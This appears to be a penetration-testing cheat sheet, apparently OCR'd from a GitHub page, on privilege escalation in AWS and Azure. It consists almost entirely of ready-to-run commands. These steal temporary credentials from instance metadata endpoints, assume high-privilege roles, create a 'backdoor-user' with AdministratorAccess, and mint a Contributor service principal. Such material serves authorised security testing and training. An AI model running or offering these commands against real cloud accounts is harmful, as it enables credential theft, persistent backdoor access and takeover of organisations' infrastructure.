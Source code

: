 
## Cloud Platform Privilege Escalation

### AWS Privilege Escalation

#### IAM Role Assumption Chain
```bash
# Check current identity
aws sts get-caller-identity

# List assumable roles
aws iam list-roles --query 'Roles[?contains(AssumeRolePolicyDocument, `sts:AssumeRole`)].RoleName'

# Attempt role assumption
aws sts assume-role --role-arn arn:aws:iam::ACCOUNT:role/HighPrivRole --role-session-name "PrivEsc"

# Use temporary credentials
export AWS_ACCESS_KEY_ID=TEMP_KEY
export AWS_SECRET_ACCESS_KEY=TEMP_SECRET
export AWS_SESSION_TOKEN=SESSION_TOKEN

# Check new permissions
aws iam get-user
aws iam list-attached-user-policies --user-name current-user
```

#### EC2 Instance Profile Abuse
```bash
# Check for instance metadata access
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Get instance role credentials
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2-Role-Name

# Use instance credentials
aws configure set aws_access_key_id INSTANCE_ACCESS_KEY
aws configure set aws_secret_access_key INSTANCE_SECRET_KEY
aws configure set aws_session_token INSTANCE_TOKEN

# Escalate privileges through attached policies
aws iam create-user --user-name backdoor-user
aws iam attach-user-policy --user-name backdoor-user --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

### Azure Privilege Escalation

#### Managed Identity Exploitation
```bash
# Check for managed identity
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# Get access token
TOKEN=$(curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq -r .access_token)

# Use token to access Azure resources
curl -H "Authorization: Bearer $TOKEN" "https://management.azure.com/subscriptions?api-version=2020-01-01"

# Create new service principal with high privileges
az ad sp create-for-rbac --role="Contributor" --scopes="/subscriptions/subscription-id"
```